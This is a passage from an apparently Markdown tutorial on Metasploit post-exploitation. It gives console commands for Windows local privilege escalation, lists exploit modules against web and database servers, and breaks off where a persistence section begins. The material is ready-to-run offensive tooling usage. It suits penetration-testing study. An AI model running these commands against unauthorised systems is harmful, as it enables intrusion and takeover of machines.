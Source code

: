 ```

```
meterpreter > run post/windows/gather/enum_services
# Look for unquoted service paths with spaces

msf6 > use exploit/windows/local/unquoted_service_path
msf6 exploit(windows/local/unquoted_service_path) > set SESSION <session-id>
msf6 exploit(windows/local/unquoted_service_path) > set SERVICE [service_name]
msf6 exploit(windows/local/unquoted_service_path) > exploit
```

### DLL Search Order Hijacking

```
meterpreter > run post/windows/gather/enum_applications
# Identify applications with potential DLL hijacking vulnerabilities

msf6 > use exploit/windows/local/dll_hijack
```

### AlwaysInstallElevated Privilege Escalation

```
meterpreter > reg queryval -k HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer -v AlwaysInstallElevated
meterpreter > reg queryval -k HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer -v AlwaysInstallElevated

# If both registry keys are set to 1
msf6 > use exploit/windows/local/always_install_elevated
msf6 exploit(windows/local/always_install_elevated) > set SESSION <session-id>
msf6 exploit(windows/local/always_install_elevated) > exploit
```

## Service-Specific Privilege Escalation

### Web Server Privileges

For targets running web servers:

```
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec  # Shellshock
msf6 > use exploit/unix/webapp/wp_admin_shell_upload        # WordPress
msf6 > use exploit/multi/http/tomcat_mgr_deploy             # Tomcat
```

### Database Server Privileges

```
msf6 > use exploit/windows/mysql/mysql_mof                  # MySQL
msf6 > use exploit/linux/postgres/postgres_payload          # PostgreSQL
```

## Maintaining Access

After gaining root/administrator privileges, it's important to establish persistence to maintain access across system reboots or logoffs.

### Linux Persistence

```